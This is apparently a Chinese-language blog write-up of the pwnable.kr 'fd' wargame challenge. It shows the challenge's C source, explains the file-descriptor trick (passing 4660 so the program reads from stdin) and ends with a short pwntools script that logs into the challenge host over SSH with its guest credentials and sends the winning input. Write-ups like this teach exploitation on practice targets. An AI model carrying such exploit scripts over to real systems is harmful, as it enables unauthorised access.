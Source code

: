 ```yaml
---
layout: post
title: Pwnable-01-fd
description: >
  这是pwnable的第一题fd的解析过程,其中涉及到思路分析
tags: [技术]
author: author1
accent_image:          /assets/img/sidebar-bg.jpg
accent_color:          '#4fb1ba'
---
```

#### pwnable介绍

  ['pwnable.kr'](https://pwnable.kr/index.php)is a non-commercial wargame site which provides various pwn challenges regarding system exploitation. the main purpose of pwnable.kr is 'fun'.    please consider each of the challenges as a game. while playing pwnable.kr, you could learn/improve system hacking skills but that shouldn't be your only purpose.
#### 源代码：

```c++
  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>
  char buf[32];

  int main(int argc, char* argv[], char* envp[]){
      if(argc<2){
  	printf("pass argv[1] a number\n");
  	return 0;
  	}
  	int fd = atoi( argv[1] ) - 0x1234; //atoi把字符串转成整形
  	int len = 0;
  	len = read(fd, buf, 32); //将参数fd所指的文件传送32个字符到buf
  	if(!strcmp("LETMEWIN\n", buf)){     //strcmp(str1,str2),str1=str2返回0，str1<str2返回负数，str1>str2返回正数
  		printf("good job :)\n");        //buf==LETMEWIN\n的时候输出flag
  		system("/bin/cat flag");    
  		exit(0);
  	}
  	printf("learn about Linux file IO\n");
  	return 0;

  }
```
#### 解题思路

```
  目标：执行system(“/bin/cat flag”);
  则：strcmp(“LETMEWIN\n”, buf) == 0
  则：buf = “LETMEWIN\n”
  则：read(fd, buf, 32)将buf设为”LETMEWIN\n”
  fd == 0为标准输入
  fd == 1为标准输出
  fd == 2为标准错误输出
  所以我们可以使fd == 0，然后从终端输入LETMEWIN后回车
  要使fd == 0，
  则：输入的参数 == 0x1234，即4660

  从文件描述符fd所指向的文件中读取count个字节的数据到buf所指向的缓存中。
  文件描述符是由无符号整数表示的句柄，进程使用它来标识打开的文件。
  文件描述符0代表标准文件。
  fd == 0为标准输入
  fd == 1为标准输出
  fd == 2为标准错误输出
```
#### 解答：

先输入0x1234的十进制即4660，然后再输入LETMEWIN
./fd 4660
LETMEWIN

#### poc
```python
  from pwn import *
  pwn_ssh=ssh(host='pwnable.kr',user='fd',password='guest',port=2222)
  print(pwn_ssh.connected())
  sh=pwn_ssh.process(argv=['fd','4660'],executable='./fd')
  sh.sendline('LETMEWIN')
  print(sh.recvall())
```
